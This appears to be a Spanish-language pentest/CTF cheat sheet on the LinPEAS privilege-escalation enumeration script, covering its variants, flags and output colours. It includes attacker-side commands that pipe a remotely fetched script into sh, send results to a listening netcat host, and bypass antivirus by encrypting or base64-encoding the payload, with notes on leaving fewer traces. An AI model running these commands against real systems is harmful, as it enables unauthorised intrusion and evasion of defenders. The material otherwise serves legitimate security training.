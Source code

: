 LinPEAS es un script de enumeración para encontrar vectores de escalada de privilegios en sistemas Linux, Unix-like y MacOS.
No explota vulnerabilidades directamente: recolecta información, detecta configuraciones débiles y marca posibles caminos para obtener privilegios más altos.

---

## Tipos de binarios y scripts

* **linpeas\_fat.sh** → todos los chequeos + herramientas externas embebidas en base64. Tamaño grande.
* **linpeas.sh** (default) → todos los chequeos + solo *linux exploit suggester* embebido.
* **linpeas\_small.sh** → chequeos más importantes, más rápido y pequeño.

---

## Modos de uso y despliegue

### Descarga y ejecución remota

```bash
# Desde GitHub (sin guardar en disco)
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

### Transferencia en LAN

```bash
# Atacante
sudo python3 -m http.server 80
# Víctima
curl 10.10.10.10/linpeas.sh | sh
```

### Sin `curl`

```bash
# Atacante
sudo nc -q 5 -lvnp 80 < linpeas.sh
# Víctima
cat < /dev/tcp/10.10.10.10/80 | sh
```

### Ejecución y envío de resultados

```bash
# Atacante
nc -lvnp 9002 | tee linpeas.out
# Víctima
curl 10.10.14.20:8000/linpeas.sh | sh | nc 10.10.14.20 9002
```

---

## Parámetros clave

* **`-a`** → todos los chequeos (bruteforce usuarios, buscar más hashes, monitorizar procesos).
* **`-r`** → búsqueda por regex (API keys, tokens, contraseñas).
* **`-s`** → modo rápido y sigiloso (omite chequeos pesados, nada se escribe a disco).
* **`-P <pass>`** → contraseña para usar en `sudo -l` y brute force con `su`.
* **`-D`** → modo debug.
* **`-o <checks>`** → ejecutar solo ciertos módulos, ej.:

```bash
linpeas.sh -o system_information,network_information
```

* **`-f <ruta>`** → analizar un filesystem montado o carpeta (firmwares, backups).
* **`-d/-p/-i`** → descubrimiento y escaneo de red (fping/nc).

---

## AV Bypass

* **AES + OpenSSL**

```bash
openssl enc -aes-256-cbc -pbkdf2 -salt -pass pass:Clave -in linpeas.sh -out lp.enc
# En víctima
curl 10.10.10.10/lp.enc | openssl enc -aes-256-cbc -pbkdf2 -d -pass pass:Clave | sh
```

* **Base64**

```bash
base64 -w0 linpeas.sh > lp.enc
# En víctima
curl 10.10.10.10/lp.enc | base64 -d | sh
```

---

## Resultados y colores

* **Rojo/Amarillo** → alta probabilidad de PE.
* **Rojo** → sospechoso.
* **Verde** → seguro conocido.
* **Azul** → usuarios sin shell / dispositivos montados.
* **Cian claro** → usuarios con shell.
* **Magenta claro** → usuario actual.

---

## Uso recomendado en CTF o pentest interno

```bash
./linpeas.sh -a -r > /dev/shm/linpeas.txt
less -r /dev/shm/linpeas.txt
```

Esto maximiza detecciones (incluye regex, brute force, cron monitoring) y mantiene colores.

---
---
---

### Flujo básico

1. **Descargas LinPEAS en tu máquina atacante**

```bash
wget https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh
```

2. **Levantas un servicio para compartirlo**
   Ejemplo con HTTP simple:

```bash
sudo python3 -m http.server 80
```

3. **Desde la víctima lo ejecutas directamente en memoria**

```bash
curl http://<IP-atacante>/linpeas.sh | sh
```

Esto descarga y ejecuta LinPEAS sin guardarlo en disco (menos rastros).

---

### Puntos clave

* No se “instala” nada, solo se transfiere o ejecuta.
* Puedes servirlo por HTTP, Netcat, SMB, etc.
* También puedes copiarlo manualmente si ya tienes acceso al sistema y luego ejecutarlo localmente.

---
